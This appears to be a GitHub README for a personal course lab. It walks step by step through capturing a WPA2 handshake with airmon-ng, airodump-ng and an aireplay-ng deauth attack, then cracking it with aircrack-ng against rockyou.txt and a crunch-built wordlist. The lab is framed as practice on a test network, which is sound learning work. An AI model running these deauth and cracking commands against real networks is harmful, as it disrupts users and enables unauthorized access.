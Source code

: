 # 🔐 WPA/WPA2 Handshake Capture & Cracking Lab

This lab walks through how I captured a WPA2 handshake from a test network using Kali Linux and prepared it for offline cracking. 
It's based on chapters 5 and 7 from my Wi-Fi exploitation course delivered by Cyberflow. All credit goes to these folks. 

HW used ALFA Network AWUS036H - Realtek RTL8187L chipset - Annoyingly only supports 2.4 GHZ and not 5 GHz. 
---

## 🎯 Objectives

- Enable monitor mode on a wireless adapter
- Scan and select a target access point (AP)
- Capture WPA/WPA2 handshake using `airodump-ng`
- Use deauth attack to force a client to reconnect
- Save and verify the captured handshake for cracking

---

## 🧪 Lab Setup

- **OS**: Kali Linux (VirtualBox guest)
- **Adapter**: ALFA AWUS036H (RTL8187)
- **Test Network**: WPA2-PSK protected
- **Tools**: `airmon-ng`, `airodump-ng`, `aireplay-ng`, `aircrack-ng`

---

## 🛰️ Steps Taken

### 1. Killed Network Managers & Switched to Monitor Mode
```bash
sudo airmon-ng check kill
sudo airmon-ng start wlan0
```

### 2. Scanned Networks to Find the Target
```bash
sudo airodump-ng wlan0mon
```
> Grabbed the BSSID and channel of the target network.

### 3. Focused Airodump on One AP
```bash
sudo airodump-ng --bssid <BSSID> -c <channel> -w handshake wlan0mon
```

### 4. Sent Deauth Packets to Kick a Device Off
```bash
sudo aireplay-ng --deauth 10 -a <BSSID> wlan0mon
```
> Waited for client to reconnect → handshake captured.

### 5. Verified the Handshake
Saw `[ WPA handshake: <BSSID> ]` in the corner of the terminal. Output saved as `handshake.cap`.

---

## 🧠 (Optional) Tried Cracking with a Wordlist
```bash
aircrack-ng handshake.cap -w /usr/share/wordlists/rockyou.txt
```

Also tried building a tiny custom list:
```bash
crunch 8 10 abc123 -o testlist.txt
```

---

## 🔍 Notes to Self

- Needs at least one client connected to work.
- Some routers block multiple deauths.
- Got to test airodump-ng and aireplay-ng together in a real flow.
- Get another USB adapter that supports 5 GHz. 

---

## ✅ Outcome

Captured a working WPA2 handshake in a controlled environment. Can use it to practice brute-force and dictionary-style attacks later.

---

## ⏭️ Next Lab

Will attempt full WPA2 cracking and dictionary tuning in [`wpa2-dictionary-attack.md`](wpa2-dictionary-attack.md)
